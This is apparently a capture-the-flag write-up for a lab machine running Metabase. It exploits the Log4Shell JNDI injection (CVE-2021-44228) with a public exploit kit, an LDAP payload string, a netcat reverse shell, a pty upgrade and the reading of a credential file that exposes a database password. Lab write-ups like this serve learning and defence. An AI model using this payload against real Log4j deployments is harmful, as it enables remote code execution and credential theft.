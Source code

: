 ## Synopsis
Remote Code Execution vulnerability in apache Log4j2 ≤= 2.14.1

Allows attackers to execute arbitrary system command by loading code from an attacker-controlled LDAP server via the Java Naming Directory Interface JNDI reported by [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)

## TL:DR
find **user** and **root flag** trough remote code execution. Therefore use this  [exploit](https://github.com/pimps/JNDI-Exploit-Kit/) and setup `netcat` using kali linux as our OS.  
## getting started
We add the `domain` and `ip` to `/etc/hosts` .
```
echo "10.10.69.123 metabase.htb" | sudo tee -a /etc/hosts
```
## enumeration
As we start with a `nmap` scan it revails a `nginx server` listening on port 80 and we are redireted to `metabase.htb` .

We also look for something interesting in source code with `curl`
```sh
curl -v metabase.htb
```


## Expliotation
We found the information here for `JNDI injections` vulnerabilities. Public expliots are available. We look for  a suitable [exploit](https://github.com/pimps/JNDI-Exploit-Kit/) and download the available compiled version to our kali linux:
```sh
wget https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar
```

Now we can run the exploit by specifiying the LDAP server adress `IP:port` with the `-L` option and the adress of our listener with the `-S` option:

```sh
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 10.10.14.7:1389 -S 10.10.14.22:4444
```

## Privilege Escalation
Getting prepared for privilege escalation we have to setup `netcat` and we listen on port `4444`.
```sh
nc -lvnp 4444
```

We pick the LDAP payload targeting with `trustURLCodebase=true` and type the following string to the Native query Matabase page

NOTE: While suggesting otherwise the option `JDK 1.8` was not working for me.

We add a query in `sample data`:
```sh
${jndi:ldap://10.10.14.7:1389/57sbhf}
```
![db query](../img/db_query.png)

Now we see in our terminal a succesfull privilege escalation en try to upgrade our shell to a fully interactive pty. Due to the fact `python3` is installed on the host, we run:
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

in the metabase group we can search for files:
```sh
find / -group metabase -ls 2>/dev/null | grep -v /proc

```
A password is found in `/etc/default/metabase`:
```sh
cat /etc/default/metabase
MB_DB_PASS=fHj3sxZ0.f
```

The rootflag is found in `root/root.txt`
